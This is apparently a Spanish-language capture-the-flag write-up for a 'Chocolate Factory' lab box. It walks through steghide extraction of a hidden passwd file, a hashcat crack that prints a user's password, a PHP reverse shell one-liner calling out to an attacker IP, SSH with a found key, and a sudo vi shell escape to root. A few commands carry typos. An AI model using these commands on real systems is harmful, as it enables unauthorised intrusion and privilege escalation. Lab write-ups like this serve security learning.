










# Chocolate Factory

Vemos que el archivo tiene un b64.txt incrustado:
`steghide info gum_room.jpg`

Con salvoconducto vacío podemos extraer el b64.txt que está cifrado en base64
`steghide extract -sf gum_room_jpg`

Al decodificar en base64 el contenido del archivo, vemos una versión de /etc/passwd en la que se muestra la contraseña del usuario charlie

Intenamos hashearla con hashcat

`hashcat -a 0 -m 1800 hash_pswd_charlie.txt /usr/share/wordlists/rockyou.txt`

**cn7824**

## Vulnerar sin el png

Se pueden ejecutar comandos en /home.php

Lanzamos una revshell pero no nos deja de forma común, lanzo con php
`php -r '$sock=fsockopen("10.8.63.150",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
**www-data**

en key_rev_key

Si hacemos file para ver que tipo de archivo es vemos que es un ejecutable pero no tenemos permisos para ejecutarlo

Vemos rsa key en el home de charlie

`ssh charlie@10.10.85.252 -i id_rsa_charlie`
**charlie**

(ALL : !root) NOPASSWD: /ur/bin/vi
`su -u root vi`
`:!sh`
**root**

Para conseguir la flag he tenido que eliminar los print de YOU ARE DE OWNER OF porque la función que usa no había forma de que funcionara con python3
